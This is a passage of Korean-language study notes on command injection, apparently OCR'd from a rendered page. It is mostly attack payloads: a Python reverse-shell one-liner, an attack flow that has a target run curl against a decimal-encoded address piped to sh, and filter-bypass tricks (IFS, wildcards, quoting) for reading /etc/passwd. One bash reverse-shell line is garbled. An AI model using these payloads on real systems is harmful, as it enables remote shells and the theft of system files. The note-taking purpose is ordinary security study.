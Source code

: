     --> bash -i /dev/tcp127.0.0.11234
    ```
    
    /tmp 디렉터리는 누구나 읽고 쓸 수 있는 권한이 존재하기 때문에 1이라는 파일을 생성 후 문자열 삽입. `bash</tmp/1&` 을 입력하면 생성한 파일을 Bash를 통해 실행 
    
    ※ 명령어 중 숫자가 포함된 경우 Bash에서  파일 디스크립터로 인식할 수 있기 때문에 띄어쓰기 삽입.
    
- 네트워크 도구 사용 : IP 주소를 짧게 변환하기 위해서 IP 형식을 long 자료형으로 변환하는 경우가 있음
    
    ```python
    #!/usr/bin/python3
    import ipaddress
    int(ipaddress.IPv4Address("192.168.0.13")) # 3232235533
    ```
    
    - 공격 흐름
        1. 공격자가 리버스 쉘 스크립트를 웹서버에 올려둠
            
            ```python
            python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("127.0.0.1",1234)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
            ```
            
        2. 대상 서버가 `curl attacker.com` 을 실행하도록 유도
            
            ```python
            curl 2130706433|sh
            $(curl 2130706433)
            `curl 2130706433`
            ```
            

### 입력 값 제한

- 공백 문자 우회 : IFS 사용
    - IFS : 환경 변수. 문자열을 나눌 때 기준이 되는 문자
        
        ```python
        cat${IFS}/etc/passwd
        cat$IFS/etc/passwd
        X=$'\x20';cat${X}/etc/passwd
        X=$'\040';cat${X}/etc/passwd
        {cat,/etc/passwd}
        cat</etc/passwd
        ```
        
- 키워드 필터링 우회
    - EX1) cat 문자열 필터링 우회
        
        ```python
        /bin/c?t /etc/passwd
        /bin/ca* /etc/passwd
        c''a""t /etc/passwd
        \c\a\t /etc/passwd
        c${invalid_variable}a${XX}t /etc/passwd
        ```
        